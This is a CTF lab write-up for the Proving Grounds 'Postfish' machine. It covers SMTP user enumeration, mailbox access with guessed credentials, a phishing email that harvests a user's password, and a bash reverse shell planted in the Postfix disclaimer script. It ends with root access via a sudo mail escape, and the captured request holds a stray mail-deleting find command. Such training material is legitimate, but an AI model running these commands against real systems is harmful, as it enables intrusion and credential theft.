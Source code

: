 ```yaml
---
title: "Proving grounds Practice: Potfish"
layout: post
date: 2024-05-20 02:00
categories: writeup
---
```


Proving grounds Practice - Potfish CTF writeup.

# NMAP
```text
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp  open  http Apache httpd 2.4.41 ((Ubuntu))
Nothing here...

Create custom wordlist based on the texts in the webpage

```sh
cewl http://postfish.off/team.html -m 5 -w team.txt
```

## 25/tcp  open  smtp Postfix smtpd

Enumerate snmp users

```sh
smtp-user-enum -U team.txt -t 192.168.228.137
######## Scan started at Sat Oct 28 07:50:55 2023 #########
192.168.228.137: Sales exists
192.168.228.137: Legal exists
######## Scan completed at Sat Oct 28 07:51:11 2023 #########
2 results.
```

### Usernames found

Sales
Legal

**Users in the website**

Claire Madison
Mike Ross
Brian Moore
Sarah Lorem

**Common email naming**

claire.madison@postfish.off
mike.ross@postfish.off
brian.moore@postfish.off
sarah.lorem@postfish.off

```shell
naveenj@hackerspace:[08:01]~/proving_grounds/Postfish$ smtp-user-enum -U usr -t postfish.off
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usr
Target count ............. 1
Username count ........... 8
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sat Oct 28 08:01:52 2023 #########
postfish.off: claire.madison@postfish.off exists
postfish.off: sarah.lorem exists
postfish.off: brian.moore exists
postfish.off: mike.ross exists
postfish.off: claire.madison exists
postfish.off: sarah.lorem@postfish.off exists
postfish.off: mike.ross@postfish.off exists
postfish.off: brian.moore@postfish.off exists
######## Scan completed at Sat Oct 28 08:01:54 2023 #########
8 results.

8 queries in 2 seconds (4.0 queries / sec)
```

The scan shows the users exist.

Check email messages using imap protocol by using curl

```sh
curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
```

```shell
naveenj@hackerspace:[08:16]~/proving_grounds/Postfish$ curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
	id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
	by postfish.off (Postfix) with SMTP id 7712145434
	for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
```

### Sending email using smtp

```shell
- Connect to port using netcat
nc -nv 192.168.209.137 25

- From address
MAIL FROM: it@postfish.off
250 2.1.0 Ok

- To address
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok

- Begin data
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Password reset process
Hi Brian,

Please follow this link to reset your password: http://192.168.45.205

regards,

-End data
.
250 2.0.0 Ok: queued as A6BCB4543F

- Exit
QUIT
221 2.0.0 Bye
```

![img](/assets/images/CTF/Proving_Grounds/Potfish/smtp.png)

Upon sending the link in the email they sent us the new password.

```shell
naveenj@hackerspace:[08:29]~/proving_grounds/Postfish$ nc -lvnp 80
listening on [any] 80 ...


connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 53910
POST / HTTP/1.1
Host: 192.168.45.205
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

### url decoded

first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind/var/mail/-typef!-namesales-delete_password=EternaLSunshinE

### Credentials
brain.moore:EternaLSunshinE

## Privilege Escalation

Run linpeas.

```sh
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Oct 28 12:42 /etc/postfix/disclaimer
```

Add reverse shell to the disclaimer script file.

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.205/443 0>&1;
```

Repeat what we did for initial foothold. So whenever the system receives and sends any emails it will include the disclaimer content from a text file. And this script will be executed.

```shell
naveenj@hackerspace:[09:05]~/proving_grounds/Postfish$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 47838
bash: cannot set terminal process group (31813): Inappropriate ioctl for device
bash: no job control in this shell
filter@postfish:/var/spool/postfix$ sudo -l
sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

### GTFO Bins Exploit

```sh
sudo mail --exec='!/bin/bash'
```

## Exploitation

```shell
filter@postfish:/var/spool/postfix$ sudo mail --exec='!/bin/sh'
sudo mail --exec='!/bin/sh'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).